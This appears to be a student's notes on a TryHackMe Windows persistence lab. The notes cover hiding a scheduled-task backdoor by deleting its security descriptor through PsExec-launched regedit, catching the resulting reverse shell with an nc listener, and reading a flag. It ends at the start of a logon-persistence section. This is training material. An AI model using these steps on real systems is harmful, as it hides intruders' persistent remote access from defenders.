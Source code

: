To hide our task, let's delete the SD value for the "THM-TaskBackdoor" task we created before. To do so, we will use`psexec` (available in`C:\tools`) to open Regedit with SYSTEM privileges:

```shell-session
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```

We will then delete the security descriptor for our task:

![Task Scheduler SD](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9a6dad473b19be313e3069da0a2fc937.png)

If we try to query our service again, the system will tell us there is no such task:

```shell-session
C:\> schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.
```

If we start an nc listener in our attacker's machine, we should get a shell back after a minute:


```shell-session
user@AttackBox$ nc -lvp 4449
```

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)


Use the reverse shell obtained through the task scheduler and execute`C:\flags\flag9.exe` to retrieve a flag.


Once we did all steps, we get a shell:

![Pasted image 20250515165131.png](../../../IMAGES/Pasted%20image%2020250515165131.png)

```
C:\flags>.\flag9.exe
THM{JUST_A_MATTER_OF_TIME}
```


# Logon Triggered Persistence
---

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.

## Startup folder
